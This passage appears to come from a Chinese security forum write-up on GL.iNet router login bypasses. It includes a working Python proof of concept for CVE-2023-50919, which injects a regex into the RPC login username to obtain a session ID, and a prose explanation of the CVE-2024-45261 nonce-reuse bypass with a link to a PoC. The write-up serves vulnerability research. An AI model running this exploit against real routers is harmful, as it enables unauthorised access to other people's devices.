 ![](https://bbs.kanxue.com/upload/attach/202411/802108_54C8FYZSP3WV8KS.png)

```
#CVE-2023-50919.py
import requests
import hashlib
 
requests.packages.urllib3.disable_warnings()
s = requests.Session()
s.verify = False
s.keep_alive = True
s.headers.update({'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; Trident/7.0; rv:11.0) like Gecko'})
 
url = "http://192.168.122.130/rpc"
j = {"jsonrpc":"2.0","id":1,"method":"challenge","params":{"username":"root"}}
r = s.post(url, json=j)
if r.status_code == 200 and "Access denied" not in r.text and "nonce" in r.json()['result']:
    nonce = r.json()['result']['nonce']
    data = f'root:[^:]+:[^:]+:0:{nonce}'
    hash = hashlib.md5(data.encode()).hexdigest()
    j = {"jsonrpc":"2.0","id":1,"method":"login","params":{"username":"root:[^:]+:[^:]+","hash":hash}}
    r = s.post(url, json=j)
    try:
        sid = r.json()['result']['sid']
    except Exception:
        pass
    if sid:
        print("[*] Successfully generated a non-privileged SID: \033[1m%s\033[0m" %sid)
 
    else:
        print("[*] Error! Could not generate a SID!")
else:
    print("[*] Could not get a nonce from the target device! Try again later!")
```

**CVE-2024-45261**
------------------

下载修复版本 v4.5.0 固件，解包查看是 CVE-2023-50919 如何修复的，可以看到对 username 进行了正则检查，严格限定为小写字母、数组、下划线和连字符，堵死了利用用户名拼接正则表达式的漏洞。

![](https://bbs.kanxue.com/upload/attach/202411/802108_6BXF3PSCZW7Y346.png)

但是真的安全了吗，其实并没有。再往上翻一下 / etc/shadow 文件的内容，可以知道除了 root 还有 ftp、daemon、network 等其他用户的密码信息，而且匹配出来的哈希要么是 * 要么是 x，所以 rpc - login 请求是很容易搞定的，登录 / etc/shadwo 文件中的其他用户名即可。但是还要看下 rpc - challenge 请求流程，因为有先通过 get_crypt_info 读用户在 / etc/shadwo 文件中的哈希类型和盐，如果是 root 外的用户，获取到的 alg 和 salt 就是 nil，进而校验了 alg 值会请求失败，无法产生随机数 nonce 并返回。

![](https://bbs.kanxue.com/upload/attach/202411/802108_S2GBHVY2UGDDSH8.png)

可是问题恰恰出现在 rpc - login 请求中使用 nonce 时候，并没有检查是哪个用户生成的 nonce，所以我们可以进行 rpc - challenge 请求时候，设置用户名为 root 来获取到 nonce，再进行 rpc - login 请求时候，设置别的用户来绕过校验，这就是 CVE-2024-45261，[官网上有具体的介绍]([https://github.com/gl-inet/CVE-issues/blob/main/4.0.0/Bypassing](https://github.com/gl-inet/CVE-issues/blob/main/4.0.0/Bypassing) Login Mechanism with Passwordless User Login.md)，github 上也有 [poc 脚本](https://github.com/aggressor0/GL.iNet-Exploits/blob/main/CVE-2024-45261.py)。
